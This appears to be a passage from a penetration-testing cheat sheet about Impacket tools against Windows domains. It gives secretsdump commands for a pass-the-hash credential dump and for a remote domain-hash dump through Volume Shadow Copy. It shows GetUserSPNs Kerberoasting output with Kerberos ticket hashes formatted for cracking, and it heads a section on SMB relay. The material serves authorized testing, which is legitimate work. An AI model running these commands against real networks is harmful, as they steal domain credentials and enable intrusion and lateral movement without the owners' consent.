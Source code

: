 You can also download the PyCrypto binary if it fails to compile

- http://www.voidspace.org.uk/downloads/pycrypto26/pycrypto-2.6.win32-py2.7.exe

#### Secretsdump

Attempt to dump credentials from a remote machine via Pass the Hash

```
    python secretsdump.py ./localadmin@computername.domain.com -hashes aad3b435b51404eeaad3b435b51404ee:21306681c738c3ed2d615e29be1574a3
```

Dump domain password hashes remotely via Volume Shadow Copy

```
    c:\users\username\appdata\local\temp\sd.exe domain/username:password@dchostname -just-dc -use-vss -outputfile
```

#### GetUserSPNS.py

This is the easiest way to gather SPN tickets in the correct format for cracking with John or Hashcat
Source: https://room362.com/post/2016/kerberoast-pt2/

```
    root@wpad:~/impacket/examples# ./GetUserSPNs.py -request sittingduck.info/notanadmin -dc-ip <target DC ip address>
    Impacket v0.9.15-dev - Copyright 2002-2016 Core Security Technologies

    Password:
    ServicePrincipalName                Name        MemberOf                                              PasswordLastSet
    ----------------------------------  ----------  ----------------------------------------------------  -------------------
    http/win10.sittingduck.info         uberuser    CN=Enterprise Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
    MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01                                                        2016-05-13 19:13:20

    $krb5tgs$23$*sqladmin01$SITTINGDUCK.INFO$SPN*$6e5307df490c6e3339f613fdc5655785$80ba233b4d24531202f2e354c99e7eda807bde7aeeb48ee4cdb6bf809d78652413699e3cff8b9b78b9ee70e997a538155fc7f72e208d715020d458b8413d4b12b212738833c4694d84937d65cb8ecd0020c00a5d39c07da35a748ea2cb062fca4fa9b282e7046d70ee1cae4cfee7d6f791052e283
    $krb5tgs$23$*uberuser$SITTINGDUCK.INFO$SPN*$27c08ed2a8d5394f66e8c13c25c98393$310b787ec5c10b20fcc0acb1406b6a6e2ffddd71de3dc4c70c19e5dfcf262cc88574e61cb3940ebfd574b2bb555f2b05f84d8526e3cf46fc0ca57e03467729757cbf79da9f55cde9dabdda68e80dce6564e9f1b904b0585dbc813b82abf89e973e41c102b664f4c649f85acaf7904a273dddcb9315a66f27334f313190e1caf4f5055b671d250f5912cc1871a1dd4a6126087ddfb98ade8f7dde495ee8ad76583aa5a12eef63a690dd82a15eaaca0d7594f2f1dbc899035d89dd628b291590058cfb3405d1dfe4a383be5704465d9c8972ef8f1cba3541fdfa7dcf5063eaed74051fa18bd73f7b4f7d77
```

#### SMBRelayx.py

https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python/?utm_medium=Social&utm_source=Twitter&utm_content=SANSPenTest+BLOG+SMB+Relay+Demystified&utm_campaign=SANS+Pen+Test
